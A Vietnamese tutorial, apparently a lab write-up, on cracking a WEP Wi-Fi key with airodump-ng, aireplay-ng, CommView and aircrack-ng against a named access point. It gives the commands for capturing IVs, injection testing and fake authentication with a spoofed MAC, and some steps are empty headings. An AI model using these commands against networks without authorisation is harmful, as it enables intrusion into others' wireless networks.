






# Airodump-ng

## Bước 1 - Tìm đối tượng

Sử dụng **airodump-ng** để tìm kiếm các access point (AP) đang dùng mã hóa WEP:

```sh
$ airodump-ng wlan0mon
```


Các thông tin cần chú ý:

- BSSID: **7C:8B:CA:2E:62:CE**
- ESSID: **suhao**
- Channel: **9**

Chuyển channel của wlan0mon sang cùng channel với AP:

```sh
$ iwconfig wlan0mon channel 9
```

## Bước 2 - Kiểm tra packet injection

Bước này thực hiện để chắc chắn rằng card wifi đang nằm trong phạm vi của AP và có thể thực hiện packet injection vào nó.

```sh
aireplay-ng -9 -a 7C:8B:CA:2E:62:CE wlan0mon
```



Nếu phần trăm kết quả trả về quá thấp hay bằng 0 thì packet injection sẽ không hoạt động.

## Bước 3 - Dùng airodump-ng để bắt các IV

Ở bước này sử dụng công cụ **airodump-ng** để bắt các IV được AP tạo ra.

```sh
$ airodump-ng -c 9 --bssid 7C:8B:CA:2E:62:CE -w output wlan0mon
```



## Bước 4 - Sử dụng aireplay để fake authentication

```sh
$ aireplay-ng -1 0 -a 7C:8B:CA:2E:62:CE -h A4:E9:75:4B:D6:D9 wlan0mon
```



## Bước 5 - Dùng aireplay trong ARP replay mode



## Bước 6 - Kết quả




# CommView

Đầu tiên, Start capture với Single channel mode (chọn channel của AP mục tiêu) trên CommView.


Sau đó, thực hiện fake authentication và arp packet injection như trên để AP tạo ra nhiều IV hơn.


Sau khi thu được đủ packet, thực hiện export những file log thành file cap để đưa vào aircrack.


Thực hiện tìm key với aircrack-ng và file cap vừa export.


